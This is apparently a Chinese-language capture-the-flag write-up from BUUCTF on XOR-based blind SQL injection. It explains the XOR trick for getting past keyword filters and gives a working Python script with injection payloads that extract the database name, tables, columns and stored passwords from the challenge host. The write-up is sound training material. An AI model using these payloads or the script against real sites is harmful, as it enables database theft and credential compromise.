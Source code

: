 ### 异或盲注

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/67b34998d0e0a243d4005071.png)

登录页面如下：

![](https://pic1.imgdb.cn/item/67b349a7d0e0a243d4005078.png)

寻找注入点，点击神秘代码发现会返回不同的信息，然后尝试 union、and 等关键字发现被屏蔽，如下

![](https://pic1.imgdb.cn/item/67b34a09d0e0a243d4005094.png)

关键词被过滤了，使用不了报错注入、联合注入、bool 注入

因此想到了异或注入，经过尝试发现 ^ 符号未被过滤

异或注入原理

```sql
'admin' = 0 'admin12' = 0
'1admin' = 1 '12admin' = 12 'admin' = 0 'admin12' = 0
'admin1' ^ 1 = 0 ^ 1
'admin' ^ 1 = 0 ^ 1
'1admin' ^ 1 = 1 ^ 1
```

```sql
# uname=0 时查到所有结果
select * from plane where uname='roo' ^ 0;
```

![](https://pic1.imgdb.cn/item/67b34b59d0e0a243d40050cc.png)

```sql
# uname=1 时查不到结果
select * from plane where uname='roo' ^ 1;
```

![](https://pic1.imgdb.cn/item/67b34bced0e0a243d40050e6.png)

![](https://pic1.imgdb.cn/item/67b34a3bd0e0a243d400509f.png)

发现了注入点就需要进行尝试去编写脚本去获取数据库名称、表名称、列名称、数据库内的值

```python
import time

import requests
url = "http://e92fadb9-dc06-4156-8184-cb5346128636.node4.buuoj.cn:81/search.php"
flag = ''
for i in range(1,300):
    low = 32
    high = 127
    while low < high:
        mid = (low+high)//2
        # database = "?id=1^(ord(substr((select(database())),%d,1))>%d)^1" % (i, mid)
        # tables = "?id=1^(ord(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema)='geek'),%d,1))>%d)^1"%(i,mid)
        # columns = "?id=1^(ord(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name='F1naI1y')),%d,1))>%d)^1"%(i,mid)
        data = "?id=1^(ord(substr((select(group_concat(password))from(F1naI1y)),%d,1))>%d)^1" % (i, mid)
        # 根据需要查询的内容改变get中的参数
        r = requests.get(url=url+data)
        if 'Click' in r.text:
            low = mid + 1
        else:
            high = mid
        time.sleep(0.1)
    flag += chr(low)
    print("\r", end="")
    print(flag,end='')
```